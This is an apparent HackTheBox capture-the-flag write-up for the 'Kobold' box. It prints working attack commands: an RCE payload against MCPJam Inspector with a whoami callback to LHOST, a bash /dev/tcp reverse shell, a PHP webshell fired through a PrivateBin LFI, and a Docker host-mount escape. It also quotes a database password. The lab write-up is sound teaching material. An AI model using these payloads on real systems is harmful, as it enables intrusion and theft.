




# Kobold — HackTheBox Writeup

Kobold is an Easy Linux box that hides an embarrassingly powerful attack surface behind a minimal landing page: an unauthenticated MCP Inspector endpoint that will happily spawn any command you hand it, paired with a `newgrp` quirk that silently hands you the Docker group and, with it, the host. The path isn't long, but it rewards careful enumeration — you'll miss the best entry points entirely if you stop fuzzing too early.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

I started with a standard service-version scan across all ports. Four services came back:



Port 80 immediately redirects to `https://kobold.htb/`, so I added that to `/etc/hosts` and moved on. Port 3552 stood out — Arcane is a self-hosted Docker container management platform with a Go backend and SvelteKit frontend. Worth keeping in mind.

The TLS certificate on 443 showed two SANs: `kobold.htb` and `*.kobold.htb`. A wildcard cert almost always means subdomains worth finding.

### Vhost Fuzzing

With a wildcard cert, I needed to filter out the noise. Any unknown hostname returns a 302 redirect weighing 154 bytes, so I added `-fs 154` to suppress those and let `ffuf` surface only real vhosts:

```bash
ffuf -u https://kobold.htb/ -H "Host: FUZZ.kobold.htb" \
  -w /usr/share/seclists/Discovery/DNS/raft-large-words.txt \
  -fs 154 -mc all -t 50
```

A quick note on wordlists: `dns-Jhaddix.txt` and the top-5k/20k lists both missed the subdomains I needed. It wasn't until I switched to `raft-large-words.txt` that I hit them. Always exhaust subdomain enumeration before committing to a single service — I've learned this lesson the hard way more than once.



Two hits:

- **mcp.kobold.htb** — MCPJam Inspector, a React SPA proxied to `localhost:6274`
- **bin.kobold.htb** — PrivateBin 2.0.2, proxied to a Docker container at `127.0.0.1:8080`

### Service Enumeration

**kobold.htb** is a static "Kobold Operations Suite" marketing page. Nothing hidden in paths or source, just a contact email (`admin@kobold.htb`).

**Arcane (port 3552)** looked promising early — the default credentials `arcane:arcane-admin` are baked into the source, and the default JWT secret `default-jwt-secret-change-me` reportedly wasn't rotated (the systemd service file only sets `ENCRYPTION_KEY`). CVE-2026-23944 covers an auth bypass, but it requires a remote environment to be configured, and none were. I spent some time poking at this before pivoting. As a side note: the PrivateBin config password I'd find later is apparently the *intended* path through Arcane's web UI — but we're taking a different route.

**MCPJam Inspector** caught my eye immediately. It's a debugging tool for the Model Context Protocol, and its `/api/mcp/connect` endpoint accepts a POST body with a `serverConfig.command` and `args` array that it uses to spawn the MCP "server" process. No authentication. No input validation. This is CVE-2026-23744.

**PrivateBin 2.0.2** has a documented LFI via the template cookie (GHSA-g2j9-g8r5-rg82) — path traversal that includes arbitrary PHP files. I bookmarked this for later.

---

## Foothold

### CVE-2026-23744 — MCPJam Inspector Unauthenticated RCE

The `/api/mcp/connect` endpoint is essentially a remote command executor dressed up as an MCP server launcher. There's no auth, no allowlist, nothing. To confirm RCE before going for a shell, I used a callback to exfiltrate the running user:

```bash
curl -sk -X POST https://mcp.kobold.htb/api/mcp/connect \
  -H 'Content-Type: application/json' \
  -d '{"serverConfig":{"command":"bash","args":["-c","curl http://LHOST:PORT/$(whoami)"],"env":{}},"serverId":"exfil"}'
```

My listener caught a request to `/ben` — confirming both RCE and the username. From there, a reverse shell was trivial:

```bash
curl -sk -X POST https://mcp.kobold.htb/api/mcp/connect \
  -H 'Content-Type: application/json' \
  -d '{"serverConfig":{"command":"bash","args":["-c","bash -i >& /dev/tcp/LHOST/4444 0>&1"],"env":{}},"serverId":"pwn"}'
```

Shell landed as **ben** (uid=1001). I immediately planted an SSH key in `~/.ssh/authorized_keys` for a stable session — raw reverse shells are fragile and I didn't want to re-exploit every time I got disconnected.

```bash
# uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```

User flag collected from `/home/ben/user.txt`.

---

## Privilege Escalation

With a foothold as ben, I began methodical enumeration. Two things stood out: ben is in the **operator** group, and there's a running PrivateBin Docker container whose data directory (`/privatebin-data/data/`) is world-writable on the host.

### PrivateBin LFI — Code Execution in the Container

The PrivateBin LFI via template cookie lets you traverse paths and include arbitrary PHP files. My initial read of the vulnerability suggested `disable_functions` would limit it to `file_get_contents`, but when I tested directly, `shell_exec` worked fine — the container had an empty `disable_functions`. Always verify assumptions rather than trusting prior session notes.

Since `/privatebin-data/data/` is mounted into the container and world-writable from the host, I could drop a PHP webshell there as ben and then execute it via the LFI:

```bash
cat > /privatebin-data/data/cmd.php << "EOF"
<?php
$cmd = isset($_GET["c"]) ? $_GET["c"] : "id";
echo shell_exec($cmd . " 2>&1");
EOF
```

Then trigger it by setting the `template` cookie to traverse back to the data directory:

```bash
curl -sk "https://bin.kobold.htb/?c=id" -b 'template=../../srv/data/cmd'
```



Code execution as `www-data` inside the container. From here I read `/srv/cfg/conf.php` and found MySQL credentials buried in a commented-out database block:

```
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
```

I also tried to read the paste storage directories, but `e3/` was `chmod 700` and owned by root — no luck there even from inside the container.

The container RCE was useful context, but it wasn't the path to root. The real pivot was sitting in the group configuration.

### newgrp — Quiet Escalation to the Docker Group

While reviewing `/etc/group` and `/etc/gshadow`, I noticed something subtle: the **operator** group entry in `gshadow` listed **docker** as an accessible group, with no password required for members of operator to switch into it.

`id` only shows your current primary and supplementary groups — it doesn't tell you what `newgrp` can unlock. This is the kind of thing that's easy to miss if you're only looking at `id` output. The check is simple:

```bash
newgrp docker
id
```



No password prompt, no sudo, no exploit. Ben is now in the **docker** group, which means full access to the Docker socket — and that's game over on a box where Docker is running.

### Docker Socket Escape — Root File Read

With Docker socket access, I can mount the host's root filesystem into any container. The trick here is that the PrivateBin image (which I knew was available locally from the running container) has a non-root default user and a long-lived ENTRYPOINT. Two flags sort that out: `-u 0` to run as root inside the container, and `--entrypoint cat` to override the service entrypoint with a simple file reader:

```bash
sg docker -c "docker run --rm -u 0 --entrypoint cat \
  -v /:/hostfs \
  privatebin/nginx-fpm-alpine:2.0.2 \
  /hostfs/root/root.txt"
```


Root flag. No kernel exploits, no CVE chains — just a misunderstood group permission and one command.

---

## Lessons Learned

**Vhost enumeration depth matters.** The wildcard cert was the clearest possible signal that subdomains existed, but `mcp` and `bin` only showed up in larger wordlists. When you see `*.domain.htb` in a cert, budget time for thorough fuzzing with `raft-large-words.txt` or equivalent. The two most interesting services on this box would have stayed hidden with a lazy scan.

**MCP tooling is new attack surface.** The MCPJam Inspector is representative of a whole category of "LLM infrastructure" tools that are being deployed quickly and audited slowly. The `/api/mcp/connect` endpoint is architecturally a command spawner — the only question is whether auth is bolted on. Here it wasn't. Expect to see more MCP-adjacent services on future boxes as the tooling matures.

**`newgrp` can grant group access silently.** Running `id` tells you your current groups, but `/etc/gshadow` defines what groups you *can* join. When you see a user in an intermediate group like `operator`, check whether gshadow lets that group pivot to something more powerful. `newgrp docker` with no password prompt is one of the cleanest privilege escalations you'll encounter.

**Always override ENTRYPOINT for container escapes.** When using an existing image to mount host filesystem, the image's default ENTRYPOINT is probably a long-running service. Use `--entrypoint cat` or `--entrypoint sh` to get immediate output. Pair with `-u 0` if the image runs as a non-root user by default — otherwise your host mount is owned by root and you can't read it.

**Verify `disable_functions` in every PHP container.** I initially wrote off the PrivateBin LFI as limited to file reads because a prior note suggested `disable_functions` was restrictive. It wasn't. Don't assume — run `<?php var_dump(ini_get('disable_functions')); ?>` and confirm. A "limited" LFI that actually has full `shell_exec` is a completely different vulnerability.
